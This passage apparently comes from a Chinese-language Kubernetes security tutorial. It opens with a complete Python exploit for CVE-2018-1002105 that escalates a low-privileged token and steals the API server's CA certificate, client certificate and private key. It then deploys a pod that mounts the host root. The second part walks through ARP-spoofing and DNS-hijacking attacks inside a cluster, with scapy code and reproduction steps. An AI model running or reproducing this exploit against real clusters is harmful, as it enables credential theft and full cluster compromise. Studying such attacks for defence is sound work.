| ```plain<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>114<br>115<br>116<br>117<br>118<br>119<br>120<br>121<br>122<br>123<br>124<br>125<br>126<br>127<br>128<br>129<br>130<br>131<br>132<br>133<br>134<br>135<br>136<br>137<br>138<br>139<br>140<br>141<br>142<br>143<br>144<br>145<br>146<br>147<br>148<br>149<br>150<br>151<br>152<br>153<br>154<br>155<br>156<br>157<br>158<br>159<br>160<br>161<br>162<br>163<br>164<br>165<br>166<br>167<br>168<br>169<br>170<br>171<br>172<br>173<br>174<br>175<br>176<br>177<br>178<br>179<br>180<br>181<br>182<br>183<br>184<br>185<br>186<br>187<br>188<br>189<br>190<br>191<br>192<br>193<br>194<br>195<br>196<br>197<br>198<br>199<br>200<br>``` | ```python<br>"""ExP for CVE-2018-1002105<br>ONLY USED FOR SECURITY RESEARCH<br>ILLEGAL USE IS **PROHIBITED**<br>"""<br><br>from secrets import base64, token_bytes<br>import sys<br>import argparse<br>import socket<br>import ssl<br>from urllib import parse<br>import json<br><br>try:<br>    from http_parser.parser import HttpParser<br>except ImportError:<br>    from http_parser.pyparser import HttpParser<br><br>context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)<br><br># Args<br>parser = argparse.ArgumentParser(description='ExP for CVE-2018-1002105.')<br>required = parser.add_argument_group('required arguments')<br>required.add_argument('--target', '-t', dest='host', type=str,<br>                      help='API Server\'s IP', required=True)<br>required.add_argument('--port', '-p', dest='port', type=str,<br>                      help='API Server\'s port', required=True)<br>required.add_argument('--bearer-token', '-b', dest='token', type=str,<br>                      help='Bearer token for the low privileged user', required=True)<br>required.add_argument('--namespace', '-n', dest='namespace', type=str,<br>                      help='Namespace with method access',<br>                      default='default', required=True)<br>required.add_argument('--pod', '-P', dest='pod', type=str,<br>                      required=True, help='Pod with method access')<br>args = parser.parse_args()<br><br># HTTP Gadgets<br>http_delimiter = '\r\n'<br>host_header = f'Host: {args.host}:{args.port}'<br>auth_header = f'Authorization: Bearer {args.token}'<br>conn_header = 'Connection: upgrade'<br>upgrade_header = 'Upgrade: websocket'<br>agent_header = 'User-Agent: curl/7.64.1'<br>accept_header = 'Accept: */*'<br>origin_header = f'Origin: http://{args.host}:{args.port}'<br>sec_key = base64.b64encode(token_bytes(20)).decode('utf-8')<br>sec_websocket_key = f'Sec-WebSocket-Key: {sec_key}'<br>sec_websocket_version = 'Sec-WebSocket-Version: 13'<br><br># secret targets<br>ca_crt = 'ca.crt'<br>client_crt = 'apiserver-kubelet-client.crt'<br>client_key = 'apiserver-kubelet-client.key'<br><br><br>def _get_http_body(byte_http):<br>    p = HttpParser()<br>    recved = len(byte_http)<br>    p.execute(byte_http, recved)<br>    return p.recv_body().decode('utf-8')<br><br><br>def _recv_all_once(ssock, length=4096):<br>    res = b""<br>    incoming = True<br>    while incoming:<br>        try:<br>            res += ssock.recv(length)<br>        except socket.timeout:<br>            if not res:<br>                continue<br>            else:<br>                break<br>    return res<br><br><br>def _try_to_get_privilege(ssock, namespace, pod):<br>    payload1 = http_delimiter.join(<br>        (f'GET /api/v1/namespaces/{namespace}/pods/{pod}/exec HTTP/1.1',<br>         host_header,<br>         auth_header,<br>         upgrade_header,<br>         conn_header))<br>    payload1 += http_delimiter * 2<br>    ssock.send(payload1.encode('utf-8'))<br><br><br>def _run_with_privilege(ssock, get_path):<br>    payload = http_delimiter.join(<br>        (f'GET {get_path} HTTP/1.1',<br>         host_header,<br>         auth_header,<br>         conn_header,<br>         upgrade_header,<br>         origin_header,<br>         sec_websocket_key,<br>         sec_websocket_version))<br>    payload += http_delimiter * 2<br>    ssock.send(payload.encode('utf-8'))<br><br><br>def _match_or_exit(banner_bytes, resp, fail_message="[-] Failed."):<br>    if banner_bytes in resp:<br>        return<br>    print(fail_message)<br>    sys.exit(1)<br><br><br>def _get_secret(resp):<br>    delimiter = b'-----'<br>    start = resp.index(delimiter)<br>    end = resp.rindex(delimiter)<br>    return resp[start:end + len(delimiter)].decode('utf-8')<br><br><br>def _save_file(file_name, content):<br>    with open(file_name, 'w') as f:<br>        f.write(content)<br><br><br>def _steal_secret(api_server, secret_file, match_banner):<br>    with socket.create_connection((args.host, int(args.port))) as sock:<br>        with context.wrap_socket(sock, server_hostname=args.host) as ssock:<br>            ssock.settimeout(1)<br>            print('[*] Creating new privileged pipe...')<br>            _try_to_get_privilege(ssock, namespace=args.namespace, pod=args.pod)<br>            resp = _recv_all_once(ssock)<br>            _match_or_exit(b'stdin, stdout, stderr', resp)<br>            print(f"[*] Trying to steal {secret_file}...")<br>            cmd1 = parse.quote('/bin/cat')<br>            cmd2 = parse.quote(f"/etc/kubernetes/pki/{secret_file}")<br>            _run_with_privilege(<br>                ssock,<br>                f'/exec/kube-system/{api_server}/kube-apiserver?command={cmd1}&command={cmd2}&input=1&output=1&tty=0')<br>            resp = _recv_all_once(ssock)<br>            _match_or_exit(b'HTTP/1.1 101 Switching Protocols', resp)<br>            _match_or_exit(match_banner, resp, fail_message=f'[-] Cannot find banner {match_banner}.')<br>            print(f'[+] Got {secret_file}.')<br>            secret_content = _get_secret(resp)<br>            _save_file(secret_file, secret_content)<br>            print(f'[+] Secret {secret_file} saved :)')<br><br><br>def main():<br>    print("[*] Exploiting CVE-2018-1002105...")<br>    with socket.create_connection((args.host, int(args.port))) as sock:<br>        with context.wrap_socket(sock, server_hostname=args.host) as ssock:<br>            # step 1<br>            ssock.settimeout(1)<br>            print("[*] Checking vulnerable or not...")<br>            _try_to_get_privilege(ssock, namespace=args.namespace, pod=args.pod)<br>            resp = _recv_all_once(ssock)<br>            _match_or_exit(<br>                b'stdin, stdout, stderr',<br>                resp,<br>                fail_message='[-] Not vulnerable to CVE-2018-1002105.')<br>            print("[+] Vulnerable to CVE-2018-1002105, continue.")<br><br>            # step 2<br>            print("[*] Getting running pods list...")<br>            _run_with_privilege(ssock, '/runningpods/')<br>            resp = _recv_all_once(ssock)<br>            _match_or_exit(b'HTTP/1.1 200 OK', resp)<br>            print("[+] Got running pods list.")<br><br>            pods_info = json.loads(_get_http_body(resp))<br>            pods_list = [pod['metadata']['name'] for pod in pods_info['items']]<br>            for pod in pods_list:<br>                if pod.startswith('kube-apiserver'):<br>                    api_server = pod<br>                    break<br>            else:<br>                print("[-] Cannot find API Server.")<br>                sys.exit(1)<br>            print(f"[*] API Server is {api_server}.")<br><br>            # step 3<br>            _steal_secret(<br>                api_server=api_server,<br>                secret_file=ca_crt,<br>                match_banner=b'BEGIN CERTIFICATE')<br>            _steal_secret(<br>                api_server=api_server,<br>                secret_file=client_crt,<br>                match_banner=b'BEGIN CERTIFICATE')<br>            _steal_secret(<br>                api_server=api_server,<br>                secret_file=client_key,<br>                match_banner=b'BEGIN RSA PRIVATE KEY')<br><br>    print('[+] Enjoy your trip :)')<br>    cmd_try = f"kubectl --server=https://{args.host}:{args.port}" \<br>              f" --certificate-authority={ca_crt}" \<br>              f" --client-certificate={client_crt}" \<br>              f" --client-key={client_key} get pods -n kube-system"<br>    print(cmd_try)<br><br><br>if __name__ == "__main__":<br>    main()<br>``` |


后续通过前文的 `attacker.yaml` 新建一个挂载了宿主机根目录的 Pod，执行命令如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>kubectl --server=https://172.19.0.4:6443 --certificate-authority=./ca.crt --client-certificate=./apiserver-kubelet-client.crt --client-key=./apiserver-kubelet-client.key apply -f attacker.yaml<br>``` |

## [](#4-k8s-%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)4 k8s 中间人攻击

> Flannel 是 CoreOS 团队针对 Kubernetes 设计的一个网络规划服务，简单来说，它的功能是让集群中的不同节点主机创建的 Docker 容器都具有全集群唯一的虚拟 IP 地址。

### [](#41-%E8%83%8C%E6%99%AF)4.1 背景

在默认的 Docker 配置中，每个节点上的 Docker 服务会分别负责所在节点容器的 IP 分配。这样导致的一个问题是，不同节点上容器可能获得相同的内外 IP 地址。

Flannel 的设计目的就是为集群中的所有节点重新规划 IP 地址的使用规则，从而使得不同节点上的容器能够获得同属一个内网且不重复的 IP 地址，并让属于不同节点上的容器能够直接通过内网 IP 通信。

以 Flannel 作为集群网络查件时，部署 k8s 集群的网络架构如下图所示：


每个节点上会创建一个CNI 网桥（默认设备名称为 cni0）。每个 Pod 存在域自己的网络命名空间中，通过虚拟网卡对 Veth pair 设备与外界通信。

Veth pair 设备将创建两张虚拟网卡，分别位于 Pod 所在的网络命名空间中和节点根网络命名空间中，互为对端（Veth peer)，对于 Veth pair 设备的两张虚拟网卡来说，从其中一张网卡发出的数据包，将直接出现在另一张网卡上。

每个Pod 的 eth0 网卡的对端 veth 网卡“插”在 cni0 网桥上。同一节点上的各 pod 可以借助 cni0 网桥互相通信，不同节点之间需要借助额外的网络插件进行通信。

CoreDNS 是整个 Kubernetes 集群的 DNS 服务器。

这样的网络会存在哪些安全问题呢？ 所有这此 Pod 似乎组成了一个小型的局域网络，这个网络中可能存在中间人攻击。在默认配置下的 Kubernetes 集群中，假如攻击者借助 Web渗透等方式攻破了某个Pod，就有可能针对集群内的其它 Pod 发起中间人攻击，甚至可以基于此实现 DNS 劫持。

攻击者攻破 Web App Pod 之后，获得容器内部的 root 权限，通过 ARP 欺骗诱导另一个Pod ，让其以为 Web App Pod 是集群的 DNS 服务器，进而使得 Backend pod 在对外发起针对某域名（如 example.com）的 HTTP 请求时首先向 Web App Pod 发起 DNS 查询请求。

攻击者在 Web App Pod 内部设置的恶意 DNS 服务器收到查询请求后返回了自己的 IP 地址，Backend Pod 因此以为 example.com 域名的 IP 地址是 Web App Pod 的地址，于是向 Web App Pod 发起 HTTP 请求。

在收到 HTTP 请求后，攻古者在 web App Pod 内设置的恶意 HTTP 服务器返回恶意响应给 Backend Pod。至此，整个攻击过程结束，Baokend Pod 以为自己拿到了正确的信息，其实不然。

### [](#42-%E5%9C%BA%E6%99%AF)4.2 场景

#### [](#421-mitm-%E9%9C%80%E8%A6%81%E7%9A%84%E7%BD%91%E7%BB%9C%E6%9D%83%E9%99%90)4.2.1 MITM 需要的网络权限

结合 Linux 系统 Capablities 知识可知，要想进行中间人攻击，如发送 ARP 包，需要具有 `CAP_NET_RAW` 权限。那么，容器内部的 root 用户是否具有该权限呢？


可以看到，默认情况下，Pod 是具有 `CAP_NET_RAW` 权限的。

#### [](#422-k8s-%E4%B8%8E-dns)4.2.2 k8s 与 DNS

首先，k8s 以服务资源 kube-dns 的形式提供集群级别的 DNS 服务：


Kube-dns 服务依赖的是集群中 kube-system 命名空间下的 CoreDNS Pod。


在新建的 Pod 内部可以发现 resolv.conf 文件中记录的 DNS 服务器 IP 地址为 kube-dns 服务的地址：


当这个 Pod 向 kube-dns 服务发起 DNS 查询请求时，查询请求经过 iptables，最终被发送到服务后端的 Core DNS 中。

#### [](#423-k8s-%E4%B8%8E-arp)4.2.3 k8s 与 ARP

当 Pod 向外发 ARP 请求时，该请求会被网桥转发给其它接口，因此，其它 Pod 就能够收到 ARP 请求，其中网卡 MAC 地址与 ARP 请求相符的 Pod 就会发送 ARP 响应，这响应同样会被网桥转发给发送 ARP Requests 的 Pod。

### [](#43-%E5%8E%9F%E7%90%86)4.3 原理

假设某 Pod A 需要访问 example.com，那么它首先必须知道该域名对应的 IP，因此，它需要发出一个DNS 查询请求。默认情况下，pod A 会向集群 DNS 服务 kube-dns 发起请求。

DNS 请求实际上是一个 UDP 报文，在我的环境中，kube-dns 服务的 IP 为 10.96.0.10，而 PodA 的 IP 为 192.168.166.134。两者不在同一子网。因此，该 UDP 报文会被 Pod A 发送给默认网关，也就是 cni0。接着，节点 iptables 对该报文进行 DNAT 处理，将目的地改为 192.168.219.77，也就是 CoreDNS Pod 的 IP 地址。

由于 Pod A 并未直接向 192.168.219.77 发出请求，上面的 ARP 解析过程是 cni0 负责的。因此，攻击者只需要对 cni0 发起恶意攻击即可。

但攻击者在 Pod 内，如何获得 cni0 网桥和 CoreDNS Pod 的网络信息呢？

**首先是 cni0 网桥**。网桥的 IP 和MAC 地址获取方式比较多样。例如，由于 cnio 既是网桥又是默认网关，我们可以直接查询 Pod 的路由表，获得网桥 IP 地址：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>route -n<br>``` |

然后直接查询 ARP 缓存，获得网桥 MAC 地址。如果没有，可以先向网桥发送一个 ARP 请求：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>arp -n<br>``` |

**其次是 Core DNS Pod** 的 IP 和 MAC 地址。结合背最知识部分 DNS 内容可知。pod 内部仅仅能拿到一个kube-dns 服务的 IP，通常是 10.96.0.10。但是，如果攻击者 pod 向该服务发送一个 DNS 查询请求，实际上是服务背后的 Core DNS Pod 回复 DNS 响应的（经过 DNAT 处理，目的地改为 CoreDNS Pod)。而 DNS 响应又是一个 UDP 报文，因此我们可以从中提取到 CoreDNS Pod 的 MAC 地址。但是，DNS 响应又会被进行 SNAT 处理，其中的 IP 地址被重新替换为 kube-dns 服务 IP 10.96.0.10。所以，以上步骤只能让攻击者拿到 CoreDNS Pod 的 MAC 地址。

所以，攻击者可以向整个子网的每个 IP 发出 ARP 请求，收集它们的 MAC 地址，然后与前面获得的 CoreDNS Pod 的 MAC 地址进行比对，如果一致，则说明对应 IP 即为 CoreDNS Pod 的 IP。

相关代码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```python<br>def get_coredns_pod_mac_ip(kube_dns_svc_ip, self_ip, verbose):<br>    mac = srp1(Ether() / IP(dst=kube_dns_svc_ip) /<br>               UDP(dport=53) / DNS(rd=1, qd=DNSQR()), verbose=verbose).src<br>    answers, _ = srp(Ether(dst="ff:ff:ff:ff:ff:ff") /<br>                     ARP(pdst="{}/24".format(self_ip)), timeout=4, verbose=verbose)<br>    for answer in answers:<br>        if answer[1].src == mac:<br>            return mac, answer[1][ARP].psrc<br><br>    return None, None<br>``` |

### [](#44-%E5%A4%8D%E7%8E%B0)4.4 复现

代码：[云原生网络攻击](https://github.com/Metarget/cloud-native-security-book/tree/main/code/0405-%e4%ba%91%e5%8e%9f%e7%94%9f%e7%bd%91%e7%bb%9c%e6%94%bb%e5%87%bb)

模拟构建攻击者镜像：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker build -t k8s_dns_mitm:1.0 .<br>``` |

使用 exploit.sh 分别部署 attacker 和 victim pod：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>./exploit.sh<br>``` |
